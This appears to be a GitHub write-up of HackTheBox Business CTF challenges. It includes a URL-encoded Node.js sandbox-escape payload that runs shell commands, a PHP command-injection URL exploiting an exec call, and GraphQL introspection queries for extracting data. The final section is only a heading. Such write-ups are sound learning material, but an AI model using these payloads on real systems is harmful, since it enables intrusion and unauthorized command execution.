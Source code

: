# Business_CTF
Writeup for business ctf hackthebox

- [DiscordVM - Misc](#discordvm)
- [Time - Web](#time---web)
- [NoteQL - Web](#noteql---web)
- [Emergency - Web](#emergency---web)
## DiscordVM
Challenge Description

![DiscordVm](img/discordvm.PNG)

Since I can't use the space, I made the payload to decode url of the url encoded payload.
```
!calc eval(decodeURIComponent("const%20process%20%3D%20this.constructor.constructor%28%27return%20this.process%27%29%28%29%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27cat%20%2Fapp%2Fflag.txt%27%29.toString%28%29"))
```
![DiscordVm_Result](img/discordvm_result.png)

## Time - Web
Challenge files are given.

[webtime.zip](https://github.com/mgthuramoemyint/Business_CTF/blob/main/assets/web_time.zip)

I've opened the files and check index.php and found a function.
```php
$router = new Router();
$router->new('GET', '/', 'TimeController@index');
```
TimeController.php
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
TimeModel.php
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
So the `$_GET['format']` will be executed as `date '$format' 2>&1`
Command Injection:
```
http://host/?format=%Y-%m-%d-%27;$(cat%20../../flag)%27
```
![Time_Solved](img/time_solved.png)

## NoteQL - Web

The website is running with graphql, lets extract some data.  
Dump Database Schema
```json
{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}
```
![Database Schema](img/noteql_1.png)
All Notes > Post  
Post 
```json
{"kind":"OBJECT","name":"Post","description":null,"fields":[{"name":"id","description":null,"args":[],"type":{"kind":"SCALAR","name":"ID","ofType":null},"isDeprecated":false,"deprecationReason":null},{"name":"title","description":null,"args":[],"type":{"kind":"SCALAR","name":"String","ofType":null},"isDeprecated":false,"deprecationReason":null},{"name":"author","description":null,"args":[],"type":{"kind":"SCALAR","name":"String","ofType":null},"isDeprecated":false,"deprecationReason":null},{"name":"completed","description":null,"args":[],"type":{"kind":"SCALAR","name":"Int","ofType":null},"isDeprecated":false,"deprecationReason":null}
```
Extract Data From AllNotes 
```
{\n        AllNotes {\n            id,\n            title,\n            completed\n        }\n    }
```
![NoteQL Solved](img/noteql_solved.png)

## Emergency - Web
